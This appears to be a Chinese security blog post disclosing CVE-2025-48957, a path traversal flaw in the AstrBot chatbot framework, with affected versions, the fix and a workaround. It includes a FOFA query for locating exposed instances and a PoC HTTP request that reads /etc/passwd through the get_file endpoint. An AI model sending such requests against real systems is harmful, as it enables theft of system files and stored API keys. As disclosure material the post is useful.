 #  CVE-2025-48957 AstrBot get_file接口存在任意文件读取漏洞  
 HK安全小屋   2025-06-19 15:58  
  
## 免责声明  
  
       请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
漏洞描述：  
  
AstrBot是一个大型语言模型聊天机器人和开发框架。版本3.4.4至3.5.12中存在路径遍历漏洞，可能导致信息泄露，如LLM提供商的API密钥、账户密码和其他敏感数据。漏洞已在Pull Request #1676中得到解决，并包含在版本3.5.13中。作为临时解决方案，用户可以编辑cmd_config.json文件以禁用仪表板功能。但是，强烈建议升级到版本v3.5.13或更高版本以完全解决此问题。  
  
  
影响版本：  
  
  
3.4.4<  
AstrBot<  
3.5.12  
  
  
  
FOFA:  
```
"AstrBot"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/A8qcyicQXeI0PqkbRg3OxADSRLgIo3AibOoWqrFpuXrhgzIQRJ7b4KoHTrVTvp5K63RN1LOTbqECUr40RlBibwiaMQ/640?wx_fmt=png&from=appmsg "")  
  
  
POC：  
```
GET /api/chat/get_file?filename=../../../../../../../../etc/passwd
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: */*
Connection: close
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/A8qcyicQXeI0PqkbRg3OxADSRLgIo3AibOrGXpmgqeM4b9MvJoHm6LFyEjWdFia6DVEehAIm88HbxSpibQ8zyThAEw/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
--------  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
  
  
  
